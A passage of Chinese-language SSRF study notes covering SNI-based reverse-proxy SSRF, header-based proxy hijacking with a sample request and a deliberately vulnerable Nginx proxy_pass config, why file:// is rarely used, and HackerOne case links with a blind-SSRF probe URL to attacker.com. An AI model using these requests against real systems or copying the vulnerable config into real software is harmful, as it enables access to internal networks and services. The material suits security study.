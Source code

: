 - 客户端设置 `SNI: 192.168.1.100`
- 请求发给 `target.com`
- 服务器看到 `$ssl_server_name = 192.168.1.100`
- 自动反代到 `https://192.168.1.100` ✅

#### 6. 代理劫持 | SSRF （类似SNI Nginx SSRF)

**攻击姿势**：
通过控制中间代理或反向代理的标头（如 `X-Forwarded-Host`），篡改请求目标。
**示例请求**：

```
POST /ssrf?target=https://go.dialexa.com HTTP/1.1
Host: victim.com
X-Original-Host: 127.0.0.1  # 篡改代理标头
```

**攻击逻辑**：

- 反向代理（如 Nginx）可能信任 `X-Original-Host` 标头，覆盖实际 Host：

  ```
  location /ssrf {
      proxy_pass http://$http_x_original_host;  # 漏洞点
  }
  ```

- 实际请求被代理到 `http://127.0.0.1`，而非 `go.dialexa.com`。

**生效条件**：

- 代理服务信任并解析特定标头（如 `X-Forwarded-For`、`X-Original-Host`）。
- 标头值未被过滤，允许注入内网 IP 或域名。

#### 7. 为什么SSRF很少使用file://


1. SSRF 的核心是：**绕过网络边界**，去请求 **外部或内网资源**；
2. `file://` 协议不走网络栈，它直接访问本地文件系统；
3. 用 `file://` 就完全脱离了这个核心，实战中用处非常有限。

# 二、案例

### 1. SSRF | 获取元数据 |  账户接管

[Autodesk | Report #3024673 - SSRF in Autodesk Rendering leading to account takeover | HackerOne](https://hackerone.com/reports/3024673)

### 2. AppStore | 版本上传表单 | Blind SSRF

[Nextcloud | Report #2925666 - Blind SSRF Vulnerability in Appstore Release Upload Form | HackerOne](https://hackerone.com/reports/2925666)

- 攻击者提交以下恶意 URL，探测服务器是否访问了指定地址：

  ```
  icon_url=http://attacker.com/log?payload=test
  ```
